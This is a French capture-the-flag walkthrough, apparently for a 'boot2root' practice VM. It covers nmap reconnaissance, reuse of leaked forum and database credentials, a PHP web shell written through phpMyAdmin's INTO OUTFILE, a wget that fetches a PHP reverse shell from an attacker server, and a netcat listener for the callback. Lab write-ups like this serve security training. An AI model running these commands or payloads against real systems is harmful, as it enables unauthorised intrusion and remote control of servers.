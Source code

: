 Une fois l'iso lancé, on cherche son IP sur le réseau:

`nmap -sP 192.1.1.0/24`

On scan ensuite les dossiers utilisés par la plupart des appli et serveurs web:

`nmap -sV --script=http-enum <IP>`

On trouve les chemins suivants:

 > /forum/: Forum
 > /phpmyadmin/: phpMyAdmin
 > /webmail/src/login.php: squirrelmail version 1.4.22
 > /webmail/images/sm_logo.png: SquirrelMail

On se rend sur le forum, dans lequel on trouve un topic 'Probleme login ?' posté par lmezard.
Il contient des logs de connexions.
On remarque que le log précédent la connexion réussie de lmezard contient un username ressemblant a un mot de passe :
 
 > ``!q\]Ej?*5K5cy*AJ``

On utiliser ces credentials pour se connecter au forum.
On accede au profil perso de lmezard dans lequel apparait son adresse mail :

> laurie@borntosec.net

On se rend sur le webmail, et on utilise le mail de lmezard avec son MDP du forum.
Dans la boite, un mail dont l'objet est "DB Access" contient les credentials de root pour la DB :

> root/Fg-'kKXBj87E:aJ$

On se rend sur phpMyAdmin, et on utilise les credentials trouvés dans le mail.
En cliquant sur l'onglet SQL on peut effectuer une injection SQL sur le serveur.
Pour cela on a besoin de lancer la requete suivante:

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/path/to/writable/directory/backdoor.php"`

On a donc besoin de trouver un dossier sur le serveur avec droits d'écriture. Sinon la requête fail.

On utilise la commande dirb pour scanner les dossiers du serveur:

`dirb https://<IP>`

On trouve toute une liste de dossiers, listables ou non, on les teste les listables, on arrive a écrire dans 

> /forum/templates_c/

Le serveur apache utilise le chemin classique "/var/www" pour stocker ses sites.
On lance donc la requête:

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/backdoor.php"`

Le fichier backdoor.php va donc exéctuer sur le serveur toute commande passée en argument dans l'URL, par exemple: 

`https://<IP>/forum/templates_c/backdoor.php?cmd=ls`

On obtient bien la liste des fichiers présents dans le dossier.

Pour faciliter la navigation dans le filesystem, on peut uploader un reverse shell sur le serveur pour s'y connecter en remote.
On récupère un reverse-shell sur le web qu'on configure pour fonctionner avec nos VM.
> ``https://github.com/pentestmonkey/php-reverse-shell``
Pour uploader ce shell sur le serveur, on le place sur un serveur perso et on utilise notre backdoor.
Sur le serveur perso, on place php-reverse-shell à la racine du site.
Sur un browser on lance:

`https://<IP>/forum/templates_c/backdoor.php?cmd=wget http://<IPserveur>/php-reverse-shell -O php-reverse-shell.php`

Le shell est désormais sur le serveur.
On ouvre une connexion TCP sur l'hôte :
 
`nc -v -n -l -p 1234`

Puis on lance le shell sur le serveur :

`https://<IP>/forum/templates_c/php-reverse-shell.php`

La connexion s'effectue sur l'hôte, on a accès à un terminal sous le user www-data.
